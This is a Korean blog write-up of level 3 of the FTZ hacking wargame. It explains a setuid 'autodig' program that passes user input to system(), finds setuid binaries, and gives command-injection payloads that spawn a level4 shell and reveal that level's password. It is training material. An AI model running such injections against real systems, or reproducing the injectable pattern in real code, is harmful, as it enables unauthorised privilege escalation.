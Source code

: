 ```yaml
---
layout: post
title: ! "[FTZ] level 3"
categories: [FTZ]
excerpt: " "
comments: true
share: true
tags:
  - FTZ
---
```


id = level3 pw = level3

![](/assets/posts/ftz/level3.png)
cat 으로 hint 파일을 열면

```c
[level3@ftz level3]$ cat hint

다음 코드는 autodig의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){
    char cmd[100];

    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }

    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");

    system( cmd );
}

이를 이용하여 level4의 권한을 얻어라.

more hints.
- 동시에 여러 명령어를 사용하려면?
- 문자열 형태로 명령어를 전달하려면?
```

이렇게 autodig의 소스와 힌트가 있다.
우선 setuid가 있는 파일을 찾자.
```
[level3@ftz level3]$ find / -perm -4000 -user level4 2>/dev/null
/bin/autodig
```
![](/assets/posts/ftz/level3_autodig.png)

그냥 autodig 파일을 실행시키면
```
printf( "Auto Digger Version 0.9\n" );
printf( "Usage : %s host\n", argv[0] );
``` 
이 부분만 출력된다.

```
strcpy( cmd, "dig @" );
strcat( cmd, argv[1] );
strcat( cmd, " version.bind chaos txt");
system( cmd );
```
이 코드를 보면
strcpy, strcat을 좀 알아야 하는데
autodig의 인자가 2개이면 cmd에 dig @ 를 복사해넣고, cmd에 argv[1] 의 값과 version.bind chaos txt를 이어 붙인다.
그 후 system 함수를 통해 cmd를 실행시킨다.

힌트 부분을 생각한다면

- 동시에 여러 명령어를 사용하려면?     => ; 사용
- 문자열 형태로 명령어를 전달하려면?    => " " 사용

![](/assets/posts/ftz/level3_colon.png)

이런식으로 ./autodig ~~~~ ; my-pass 를 하면 현재 level3의 pw를 알아낼 수 있으므로
; 과 " 를 사용해 level4 의 쉘을 실행시키고 my-pass로 pw를 알아내는 방법이 있다.

1. ./autodig "level4;/bin/bash;"
![](/assets/posts/ftz/level3_solve1.png)

2. ./autodig "/bin/bash;my-pass;"
![](/assets/posts/ftz/level3_solve2.png)

Level4 Password is "suck my brain".
